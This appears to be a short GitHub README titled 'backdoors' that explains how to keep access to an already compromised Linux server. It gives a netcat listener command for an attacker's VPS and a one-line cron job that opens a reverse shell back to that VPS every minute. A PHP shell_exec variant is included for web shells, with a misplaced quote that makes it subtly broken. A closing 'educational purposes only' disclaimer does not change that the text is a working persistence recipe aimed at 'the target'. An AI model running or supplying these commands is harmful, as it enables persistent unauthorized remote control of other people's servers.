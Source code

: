 # backdoors
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell
*<?php echo shell_exec("echo '*/1 * * * *  nc your_vps_public_IP the_port  -e /bin/bash   > /dev/null 2>&1 &' > cron && cat cron | crontab -)";?>

### Only for educational purposes!
### Use it on your own server!
